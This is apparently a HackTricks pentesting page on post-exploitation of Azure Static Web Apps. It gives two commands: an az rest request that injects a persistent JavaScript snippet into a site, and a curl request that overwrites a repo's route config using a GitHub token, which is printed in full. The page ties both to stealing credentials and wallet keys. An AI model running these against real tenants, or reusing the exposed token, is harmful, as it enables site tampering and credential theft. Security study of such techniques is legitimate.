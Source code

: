 # Az - Static Web Apps Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Azure Static Web Apps

For more information about this service check:

{{#ref}}
../az-services/az-static-web-apps.md
{{#endref}}

### Microsoft.Web/staticSites/snippets/write

It's possible to make a static web page load arbitary HTML code by creating a snippet. This could allow an attacker to inject JS code inside the web app and steal sensitive information such as credentials or mnemonic keys (in web3 wallets).

The fllowing command create an snippet that will always be loaded by the web app::

```bash
az rest \
    --method PUT \
    --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/staticSites/<app-name>/snippets/<snippet-name>?api-version=2022-03-01" \
    --headers "Content-Type=application/json" \
    --body '{
        "properties": {
            "name": "supersnippet",
            "location": "Body",
            "applicableEnvironmentsMode": "AllEnvironments",
            "content": "PHNjcmlwdD4KYWxlcnQoIkF6dXJlIFNuaXBwZXQiKQo8L3NjcmlwdD4K",
            "environments": [],
            "insertBottom": false
        }
    }'
```

### Overwrite file - Overwrite routes, HTML, JS...

It's possible to **overwritte a fie inside the Github repo** containing the app through Azure having the **Github token** sending a request such as the following which will indicate the path of the file to overwrite, the content of the file and the commit message.

This can be abused by attackers to basically **change the content of the web app** to serve malicious content (steal credentials, mnemonic keys...) or just to **re-route certain paths** to their own servers by oevrwritting the `staticwebapp.config.json` file.

> [!WARNING]
> Note that if an attacker manages to compromise the Github repo in any way, they can also overwrite the file directly from Github.

```bash
curl -X PUT "https://functions.azure.com/api/github/updateGitHubContent" \
-H "Content-Type: application/json" \
-d '{
    "commit": {
        "message": "Update static web app route configuration",
        "branchName": "main",
        "committer": {
            "name": "Azure App Service",
            "email": "donotreply@microsoft.com"
        },
        "contentBase64Encoded": "ewogICJuYXZpZ2F0aW9uRmFsbGJhY2siOiB7CiAgICAicmV3cml0ZSI6ICIvaW5kZXguaHRtbCIKICB9LAogICJyb3V0ZXMiOiBbCiAgICB7CiAgICAgICJyb3V0ZSI6ICIvcHJvZmlsZSIsCiAgICAgICJtZXRob2RzIjogWwogICAgICAgICJnZXQiLAogICAgICAgICJoZWFkIiwKICAgICAgICAicG9zdCIKICAgICAgXSwKICAgICAgInJld3JpdGUiOiAiL3AxIiwKICAgICAgInJlZGlyZWN0IjogIi9sYWxhbGEyIiwKICAgICAgInN0YXR1c0NvZGUiOiAzMDEsCiAgICAgICJhbGxvd2VkUm9sZXMiOiBbCiAgICAgICAgImFub255bW91cyIKICAgICAgXQogICAgfQogIF0KfQ==",
        "filePath": "staticwebapp.config.json",
        "message": "Update static web app route configuration",
        "repoName": "carlospolop/my-first-static-web-app",
        "sha": "4b6165d0ad993a5c705e8e9bb23b778dff2f9ca4"
    },
    "gitHubToken": "gho_1OSsm834ai863yKkdwHGj31927PCFk44BAXL"
}'
```



{{#include ../../../banners/hacktricks-training.md}}



